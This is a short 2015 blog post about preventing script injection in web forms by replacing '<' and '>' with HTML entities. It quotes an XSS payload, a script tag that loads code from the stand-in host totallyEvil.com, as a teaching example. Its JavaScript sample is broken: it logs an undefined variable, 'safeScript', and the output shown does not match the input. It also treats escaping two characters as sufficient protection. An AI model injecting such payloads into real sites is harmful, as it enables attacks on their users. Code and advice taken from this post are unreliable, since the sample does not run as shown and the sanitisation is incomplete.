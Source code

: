 ```yaml
---
layout: post
title:  "STRING: Prohibit Injectable Scripts"
date:   2015-12-22 09:59:53 -0500
categories: javascript
---
```


If you’re capturing information in a form element, it’s a good idea to minimize the chances for someone to inject a malicious script into your site. Script injection is one of the methods used to hack a website. Let’s say someone tries to enter the following into your First Name input:

`<script src="http://totallyEvil.com/demonScript.js"></script>`

An easy thing to do is to convert the “<” and “>” characters into their html entities.

{% highlight javascript %}

var badScripty = '<script src="totallyEvil.com/demonScript.js"></script>';

var safeEntry = badScripty.replace(/</g, "&lt;");
safeEntry = safeEntry.replace(/>/g, "&gt;");

// check safescript
console.log(safeScript);

//returns
&lt;script src="totallyEvilScript.js"&gt;&lt;/script&gt;

{% endhighlight %}